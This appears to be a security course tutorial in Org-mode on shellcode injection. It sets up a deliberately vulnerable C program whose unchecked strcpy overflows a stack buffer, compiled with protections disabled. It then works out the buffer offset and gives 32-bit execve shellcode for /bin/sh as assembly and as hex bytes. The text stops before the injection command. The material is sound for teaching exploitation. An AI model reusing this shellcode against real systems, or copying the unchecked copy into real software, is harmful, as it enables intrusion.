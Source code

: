 #+title: Shell Code Injection
#+LATEX_CLASS: article
#+LATEX_HEADER: \usepackage[a4paper]{geometry}
#+LATEX_HEADER: \usepackage{hyperref}
#+LATEX_HEADER: \geometry{verbose,tmargin=1in,bmargin=1in,lmargin=.6in,rmargin=.6in}
#+LATEX_HEADER: \usepackage{fancyhdr}
#+LATEX_HEADER: \setlength{\headheight}{15.0pt}
#+LATEX_HEADER: \pagestyle{fancy}
\newpage

* Prerequisites: 
Refer to this
\href{https://chang2000.github.io/blog/2019/09/29/Exploit/}{*NOTE*}

* Scenario & Setting Up
Exploit a system to gain *shell access*. 

Our ~inj.c~:
#+begin_src c
#include <stdio.h>
#include <string.h>

void func(char *name)
{
    char buf[100];
    strcpy(buf, name);
    printf("Welcome %s\n", buf);
}

int main(int argc, char *argv[])
{
    func(argv[1]);
    return 0;
}
#+end_src

*Note:* we need to compile it with

#+begin_src bash
gcc inj.c -o inj -fno-stack-protector -z execstack -m32 -mpreferred-stack-boundary=2
#+end_src


* Shell Code Injection

** Analysis
Clearly, there is a vulnerability in ~inj.c~. The ~strcpy~ doesn't
specify a maximum length while copying, /which will cause
*segmentation fualt*/.

Let's disassemble the program:
#+begin_src bash
objdump -d -M intel inj
#+end_src

\href{https://pastebin.com/YihwwsvD}{Full output}

From ~<func>~, we see the 7-th line, 
~80483b1:   8d 45 9c                lea    eax,[ebp-0x64]~

we can say that buffer takes ~64~ bytes, which is $6*16 + 4 = 100$
bytes in decemal. The next 4 bytes is %ebp and the next will be our
*target*(/4 bytes/).

** Preparation of Shell Code
Our Shell Code:
#+begin_src nasm
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
#+end_src

Use ~nasm -f elf shellcode.asm~ to compile it.

Convert the shellcode to 
~\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80~

(/this should be same even for different envs/).


** Find a possible place to inject shellcode

In the example, ~buf~ is a perfect target because we can modify it as
we like. How do we know what address ~buf~ will be loaded in stack?

Use *GDB*: ~gdb -q inj~ to find the address of the buffer.

** Compose the injection command
